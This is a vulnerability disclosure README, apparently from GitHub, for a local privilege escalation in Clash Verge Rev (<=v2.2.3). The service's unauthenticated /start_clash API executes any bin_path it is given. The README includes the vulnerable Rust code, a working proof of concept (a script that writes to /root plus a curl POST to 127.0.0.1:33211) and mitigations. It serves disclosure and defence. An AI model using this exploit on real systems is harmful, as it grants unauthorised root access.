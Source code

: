# clash-verge-rev-privilege-escalation-poc
## Vulnerability Title

[Clash-Verge-Rev](https://github.com/clash-verge-rev/clash-verge-rev) unauthorized API leads to local privilege escalation

## Description

Clash Verge Rev forces the installation of system services([clash-verge-service](https://github.com/clash-verge-rev/clash-verge-service)) by default and exposes key functions through the unauthorized HTTP API `/start_clash`, allowing local users to submit arbitrary bin_path parameters and pass them directly to the service process for execution, resulting in local privilege escalation.

- **Affected Systems**: Clash Verge Rev<=v2,2,3 (Linux/Windows/macOS)

## Technical Details

1. The service process listens on 127.0.0.1:33211 via the Warp framework, and no authentication is implemented for the `/start_clash` interface

[clash-verge-service/src/service/mod.rs](https://github.com/clash-verge-rev/clash-verge-service/blob/ffcccc6095e052534980230f9e0ca97db2675062/src/service/mod.rs#L100)

```rust
// Line 29
const LISTEN_PORT: u16 = 33211;
// Line 77~80
let api_start_clash = warp::post()
    .and(warp::path("start_clash"))
    .and(warp::body::json())
    .map(move |body: StartBody| wrap_response!(COREMANAGER.lock().unwrap().start_clash(body)));
// Line 98~107
warp::serve(
    api_get_version
        .or(api_start_clash)
        .or(api_stop_clash)
        .or(api_stop_service)
        .or(api_get_clash)
        .or(api_exit_sys),
)
.run(([127, 0, 0, 1], LISTEN_PORT))
.await;
```

2. `start_clash()` calls `start_mihomo()` and `start_mihomo()` calls the function `process::spawn_process(bin_path, &args, log) `passing in bin_path. `spawn_process()` calls `std::Command::new(command)` to execute the command

[clash-verge-service/src/service/core.rs](https://github.com/clash-verge-rev/clash-verge-service/blob/ffcccc6095e052534980230f9e0ca97db2675062/src/service/core.rs#L156)

```rust
let pid = process::spawn_process(bin_path, &args, log)?;
```

[clash-verge-service/src/service/process.rs](https://github.com/clash-verge-rev/clash-verge-service/blob/ffcccc6095e052534980230f9e0ca97db2675062/src/service/process.rs#L8)

```rust
let child = Command::new(command)
    .args(args)
    .stdout(log)
    .stderr(Stdio::null())
    .spawn()?;
```

## Proof of Concept

### Linux

1. Create a malicious script: (normal user)

```bash
echo -e '#!/bin/bash\nid > /root/pwned' > /home/user/pwn  
chmod +x /home/user/pwn 
```

2. Send an unauthenticated request:

```bash
curl -XPOST http://127.0.0.1:33211/start_clash \
     -H 'Content-Type: application/json' \
     -d '{
       "bin_path":"/home/user/pwn",
       "config_dir":"/tmp",
       "config_file":"/dev/null",
       "log_file":"/tmp/x"
     }'
```

![](./1.png)

3. Verify privilege escalation:

```bash
sudo cat /root/pwned
```

![](./2.png)

![](./3.png)

## Mitigation

1. Logic Fix: Remove user control over `bin_path`; use a hardcoded allowlist
2. Run the service under a non-privileged user and grant necessary capabilities via `setcap`
